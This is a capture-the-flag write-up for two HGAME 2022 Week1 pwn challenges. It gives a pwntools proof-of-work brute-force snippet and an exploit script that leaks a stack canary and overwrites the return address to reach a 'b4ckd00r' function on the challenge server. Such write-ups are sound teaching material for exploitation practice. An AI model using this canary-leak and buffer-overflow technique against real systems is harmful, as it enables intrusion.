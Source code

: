 ```yaml
---
title: "「PWN」【HGAME 2022 Week1】 Pwn Writeup WP Reproduction"
date: 2022-10-30
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]

---
```




# test_your_nc

This question is a basic process of using nc to get the flag.

Here is a method for brute-forcing (I didn't have proof of work when I did this):

Using `pwnlib.util.iters`'s `mbruteforce`

```python
proof = mbruteforce(lambda x: hashlib.sha256((x).encode()).hexdigest() == hash_code, charset, 4, method='fixed')
```



# test_your_gdb

By debugging with gdb to view the `encrypted_secret`, it was found that bypassing `memcpy` directly works.

Exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process('./a.out')
sh = remote('chuj.top', 50610)
elf = ELF('./a.out')
libc = ELF('./libc-2.31.so')

payload = p64(0xB0361E0E8294F147) + p64(0x8c09e0c34ed8a6a9)
gdb.attach(sh, 'b *0x401380')
sh.recvuntil(b'word')
sh.send(payload)
sh.recv()
canary = u64(sh.recv()[24:32])
print(hex(canary))

payload = b'A'*(0x20-0x08) + p64(canary) + b'A'*0x08 + p64(elf.sym['b4ckd00r'])
sh.sendline(payload)
sh.interactive()
```
